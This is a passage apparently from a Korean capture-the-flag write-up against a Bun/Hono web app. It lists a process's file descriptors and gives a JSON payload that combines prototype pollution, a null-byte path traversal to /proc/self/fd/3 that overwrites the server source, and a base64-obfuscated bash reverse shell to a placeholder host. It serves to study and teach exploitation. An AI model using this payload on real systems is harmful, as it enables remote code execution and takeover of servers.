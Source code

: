 
```bash
$ cd /proc/9/fd 
$ ls -al
total 0
dr-x------ 2 bun bun 24 Jul 10 15:54 .
dr-xr-xr-x 8 bun bun  0 Jul 10 15:54 ..
lrwx------ 1 bun bun 64 Jul 10 16:00 0 -> /dev/null
l-wx------ 1 bun bun 64 Jul 10 16:00 1 -> 'pipe:[17332]'
lrwx------ 1 bun bun 64 Jul 10 16:00 10 -> 'anon_inode:[timerfd]'
lrwx------ 1 bun bun 64 Jul 10 16:00 11 -> 'anon_inode:[timerfd]'
lrwx------ 1 bun bun 64 Jul 10 16:00 12 -> 'anon_inode:[timerfd]'
lrwx------ 1 bun bun 64 Jul 10 16:00 13 -> 'anon_inode:[eventpoll]'
lrwx------ 1 bun bun 64 Jul 10 16:00 14 -> 'anon_inode:[timerfd]'
lrwx------ 1 bun bun 64 Jul 10 16:00 15 -> 'anon_inode:[eventfd]'
lrwx------ 1 bun bun 64 Jul 10 16:00 16 -> 'anon_inode:[timerfd]'
l--------- 1 bun bun 64 Jul 10 16:00 17 -> /home/bun/.bun/install/cache
l--------- 1 bun bun 64 Jul 10 15:54 19 -> /tmp
l-wx------ 1 bun bun 64 Jul 10 16:00 2 -> 'pipe:[17333]'
lr-x------ 1 bun bun 64 Jul 10 15:54 20 -> /home/bun/.bun/install/cache/hono@4.4.12@@@1
lr-x------ 1 bun bun 64 Jul 10 15:54 21 -> /home/bun/.bun/install/cache/@hono/zod-validator@0.2.2@@@1
lr-x------ 1 bun bun 64 Jul 10 15:54 22 -> /home/bun/.bun/install/cache/zod@3.23.8@@@1
lr-x------ 1 bun bun 64 Jul 10 15:54 23 -> /home/bun/.bun/install/cache/yaml@2.4.5@@@1
lrwx------ 1 bun bun 64 Jul 10 16:00 24 -> 'socket:[15078]'
lr-x------ 1 bun bun 64 Jul 10 16:00 3 -> /app/src/index.ts
lr-x------ 1 bun bun 64 Jul 10 16:00 4 -> /dev/urandom
lr-x------ 1 bun bun 64 Jul 10 16:00 5 -> /dev/urandom
lr-x------ 1 bun bun 64 Jul 10 16:00 6 -> /proc/9/statm
lrwx------ 1 bun bun 64 Jul 10 16:00 7 -> 'anon_inode:[eventpoll]'
lrwx------ 1 bun bun 64 Jul 10 16:00 8 -> 'anon_inode:[timerfd]'
lrwx------ 1 bun bun 64 Jul 10 16:00 9 -> 'anon_inode:[eventfd]'
```     
그 중 PID 값이 9인 프로세스와 연결된 File Descriptor를 보면, 3번째 File Descriptor가 `/app/src/index.ts`를 가리키고 Symbolic Link가 걸려있는 것을 확인할 수 있다. 다시 말해, `/proc/self/fd/3`에 RCE 코드를 써주면 `/app/src/index.ts` 파일을 덮어쓸 수 있다.    
     
```json
{
    "data": {
        "const a": "string = Bun.spawnSync({cmd:[\"bash\",\"-c\",\"echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC97cmhvc3R9L3tycG9ydH0gMD4mMQo=${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash${IFS}-i\"]})/*",
        "signed.name": "jeff",
        "signed.animalType": "emu",
        "signed.age": 12,
        "signed.crime": "assault",
        "signed.description": "clotheslined someone with their neck",
        "signed.start": "2024-03-02T10:45:01Z",
        "signed.release": "2054-03-02T10:45:01Z",
        "signed.__proto__": {
            "outputPrefix": "../../proc/self/fd/3\x00"
        },
        "asdf": "asdf*/"
    },
    "signature": "5c9396d88b7765d1c69dd949adfcc1f82ed766cbf534c16297eed346a4b453f5"
}
```               

